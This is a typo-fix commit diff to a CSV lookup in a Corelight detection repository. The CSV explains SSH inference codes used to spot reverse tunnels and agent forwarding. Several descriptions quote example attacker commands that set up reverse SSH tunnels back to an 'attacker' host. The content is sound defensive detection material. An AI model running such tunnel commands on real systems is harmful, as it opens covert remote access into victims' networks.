

Before and after one commit to corelight/CorelightForCrowdStrike, a CSV file: documents/lookups/ssh_inference_lookup.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Fixed typos

```diff
--- a/documents/lookups/ssh_inference_lookup.csv
+++ b/documents/lookups/ssh_inference_lookup.csv
@@ -24,3 +24,3 @@ Client untrusted server,CUS,"The client likely did NOT already have an entry in
 "Reverse SSH Provisioned (ssh -R)",RSP,"The client connected with a -R flag, which provisions the ports to be used for a Reverse Session to be set up at any point onwards. ssh -R 31337:localhost:22 user@192.168.20.33"
-Reverse SSH Initiated,RSI,"The Reverse session is inititated from the server back to the Client. This initiation can be done at any stage during the session. From the Server, the attacker would initiate the Reverse session by e.g.ssh victim@localhost -p 31337"
+Reverse SSH Initiated,RSI,"The Reverse session is initiated from the server back to the Client. This initiation can be done at any stage during the session. From the Server, the attacker would initiate the Reverse session by e.g.ssh victim@localhost -p 31337"
 Reverse SSH Initiation Automated,RSIA,"Indicates that the initiation of the Reverse session happened very early in the packet stream, indicating automation"
@@ -28,3 +28,3 @@ Reverse SSH Logged in,RSL,"The Reverse tunnel login login has succeeded, the att
 Reverse SSH Keystrokes,RSK,"Keystrokes are detected within the Reverse tunnel"
-"No Remote Command (ssh -N)",NRC,"The -N flag was used in the SSH session. This is used when no interactivity is required/desired and that only the ports necessary for tunelling are transmitted. If this inference is seen with any of the R* inferences, it would be extremely suspicious. e.g ssh -N -R 31337:localhost:22 attacker@192.168.20.12"
+"No Remote Command (ssh -N)",NRC,"The -N flag was used in the SSH session. This is used when no interactivity is required/desired and that only the ports necessary for tunneling are transmitted. If this inference is seen with any of the R* inferences, it would be extremely suspicious. e.g ssh -N -R 31337:localhost:22 attacker@192.168.20.12"
 SSH Agent Forwarding Requested,AFR,"Agent forwarding was requested by the Client e.g ssh -A -i ~/.ssh/id_1_rsa user@192.168.20.33"
```
